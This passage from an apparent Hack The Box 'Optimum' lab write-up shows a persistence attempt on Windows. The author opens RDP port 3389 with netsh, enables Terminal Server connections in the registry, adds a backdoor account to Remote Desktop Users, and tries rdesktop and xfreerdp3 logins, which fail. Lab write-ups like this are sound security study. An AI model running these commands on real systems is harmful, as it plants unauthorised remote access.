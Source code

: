 Finally I try another way to create **Persistence**, through the **Windows Remote Desktop** service. I enable again with `netsh` the port used by default by the service (**3389**), I make the necessary modifications in the **Windows Registry** and add my malicious account to the **Remote Desktop Users** group and with `rdesktop` I try to connect but there is a problem of versions of the certificate that uses the secure protocol **TLS**, I try with `xfreerdp3` to connect from console but I can't either, sometimes some methods must be investigated **more in depth** to work, but I will continue with other laboratories for the moment.

> **Victime Machine**:

```cmd
netsh advfirewall firewall add rule name="RDP port open" protocol=TCP dir=in localport=3389 action=allow
netsh advfirewall firewall add rule name="RDP port open" protocol=TCP dir=out localport=3389 action=allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
net localgroup "Remote Desktop Users" oldboy4life /add
net localgroup "Remote Desktop Users"                         # :)
```

> **Attacker Machine**:

```bash
rdesktop 10.129.189.113 -g 80%
xfreerdp3 /u:oldboy4life /d:WORKGROUP /p:odlboy4l123$  /v:10.129.189.113
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> I think I am falling in love with the task of engaging **Windows environments**, because I am sure it is one of my weak points in my skills as an IT Security professional that I urgently need to strengthen. **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** allows me to always explore new methods and learn about vulnerabilities that currently exist in the real world. It only remains to kill the box and go for a new lab.

<br /><br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
